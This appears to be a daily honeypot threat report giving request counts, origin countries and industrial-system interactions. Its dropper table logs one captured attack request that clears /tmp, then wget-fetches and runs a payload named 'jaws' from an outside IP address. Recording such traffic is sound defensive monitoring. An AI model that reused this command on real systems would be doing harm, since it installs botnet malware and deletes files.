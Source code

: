 ```yaml
---
title: "Report: 2025-08-18 "
date: 2025-08-18
desciption: "Report: 2025-08-18" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-18 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 203 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1696 requests were recorded during the day, originating from 1 different countries, with a peak of 1408 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |
| GB               | Germany            |
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                      |
|:--------------|:-----------------------------------------------------------------------------|
| 8.219.6.49    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |
